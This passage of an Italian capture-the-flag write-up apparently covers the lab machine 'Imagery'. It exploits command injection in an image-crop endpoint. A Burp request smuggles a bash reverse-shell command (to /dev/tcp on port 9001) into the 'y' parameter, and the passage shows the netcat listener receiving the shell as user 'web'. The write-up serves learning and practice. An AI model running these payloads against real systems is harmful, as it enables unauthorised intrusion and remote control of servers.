 Si utilizza Burpsuite per sfruttare la vulnerabilita' e far eseguire una **reverse shell** dalla macchina vittima.

```text

POST /apply_visual_transform HTTP/1.1
Host: 10.x.x.x:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.x.x.x:8000/
Content-Type: application/json
Content-Length: 217
Origin: http://10.x.x.x:8000
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aNrtig.HOGNhtVAElEJQqfwNkCR8Uqw7bE
Priority: u=0

{"imageId":"e8fd94ae-dac9-4dfe-8640-737545c0a6d8","transformType":"crop","params":{"x":0,"y":"0 ./e8fd94ae-dac9-4dfe-8640-737545c0a6d8.png; $(/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1') # ","width":4156,"height":2771}}

```

Il payload e' stato aggiunto al parametro **y** per eseguire una **reverse shell** sulla macchina Kali in ascolto alla porta 9001.

```text

0 ./e8fd94ae-dac9-4dfe-8640-737545c0a6d8.png; $(/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1') #

```

```bash

$ nc -lvnp 9001

web@Imagery:~/web$ id
uid=1001(web) gid=1001(web) groups=1001(web)

```

Funziona!

## Analyzing the Target Machine as web

Si procede con l'analisi tramite **LinPEAS**, dalla quale si nota la presenza di un file in **/var/backup/**.
